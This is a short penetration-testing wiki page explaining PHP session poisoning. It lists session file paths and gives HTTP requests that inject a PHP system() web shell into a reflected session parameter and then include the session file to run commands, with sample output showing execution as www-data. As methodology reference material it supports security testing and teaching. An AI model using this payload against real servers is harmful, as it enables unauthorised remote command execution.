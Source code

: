 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# PHP session

When a web server wants to handle sessions, it can use PHP session cookies (`PHPSESSID`).

1. Finding where the sessions are stored.

 Examples:

 * Linux : `/var/lib/php5/sess_[PHPSESSID]`
 * Linux : `/var/lib/php/sessions/sess_[PHPSESSID]`
 * Windows : `C:\Windows\Temp\`
2. Displaying a `PHPSESSID` to see if any parameter is reflected inside.

 Example:

 * The user name for the session (from a parameter called `user`)
 * The language used by the user (from a parameter called `lang`)

 _Exemple :_

```http
GET /?user=/var/lib/php/sessions/sess_[PHPSESSID] HTTP/2

username|s:6:"tester";lang|s:7:"English";
```

3\. Inject some PHP code in the reflected parameter in the session

```http
GET /?user=<%3fphp+system($_GET['cmd'])%3b+%3f> HTTP/2
```

4\. Call the `session file`with the vulnerable parameter to trigger a command exection

```http
GET /?user=/var/lib/php/sessions/sess_[PHPSESSID]&cmd=id HTTP/2

</h2> username|s:30:"uid=33(www-data) gid=33(www-data) groups=33(www-data)
";lang|s:7:"English";
```